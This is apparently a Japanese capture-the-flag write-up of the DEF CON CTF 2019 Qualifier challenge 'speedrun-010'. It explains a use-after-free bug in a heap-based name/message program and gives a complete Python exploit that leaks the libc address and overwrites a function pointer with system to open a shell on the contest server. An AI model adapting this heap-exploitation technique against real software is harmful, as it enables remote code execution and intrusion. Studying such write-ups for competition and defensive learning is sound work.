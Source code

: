 # [pwn 5pts] speedrun-010 - DEF CON CTF 2019 Qualifier
64ビットで全部有効です。
```
$ checksec -f speedrun-010
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes	0		1	speedrun-010
```
nameとmessageを入力できます。
messageを入力するとnameと同時に表示されます。
この際表示用の関数ポインタも構造体の中に確保されます。
また、nameやmessageをfreeすることもできます。
それぞれmallocで確保されているのですが、nameを入力した後freeしてからmessageを入力するとnameがfreeされた状態で表示されるのでuse after freeがあります。
これでlibc leakして、関数ポインタをsystemにした状態で/bin/shを表示させればシェルが奪えます。

```python
from ptrlib import *

def alloc_name(name):
    sock.recvuntil("1, 2, 3, 4, or 5\n")
    sock.send("1")
    sock.recvline()
    sock.send(name)

def alloc_message(msg):
    sock.recvuntil("1, 2, 3, 4, or 5\n")
    sock.send("2")
    sock.recvline()
    sock.send(msg)

def free_name():
    sock.recvuntil("1, 2, 3, 4, or 5\n")
    sock.send("3")

def free_message():
    sock.recvuntil("1, 2, 3, 4, or 5\n")
    sock.send("4")
    
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
#sock = Process("./speedrun-010")
sock = Socket("speedrun-010.quals2019.oooverflow.io", 31337)

# leak libc
alloc_name("A")
alloc_name("B")
free_name()
free_name()
alloc_name("B" * 0x17)
alloc_message("X" * 0x10)
addr_puts = u64(sock.recvline()[0x18:].rstrip())
libc_base = addr_puts - libc.symbol("puts")
dump("libc base = " + hex(libc_base))

# get the shell
alloc_name("/bin/sh")
alloc_name("/bin/sh")
free_name()
alloc_name("sh;")
payload = b'X' * 0x10
payload += p64(libc_base + libc.symbol("system"))
dump("system = " + hex(libc_base + libc.symbol("system")))
alloc_message(payload)

sock.interactive()
```

# 感想
面白かったです。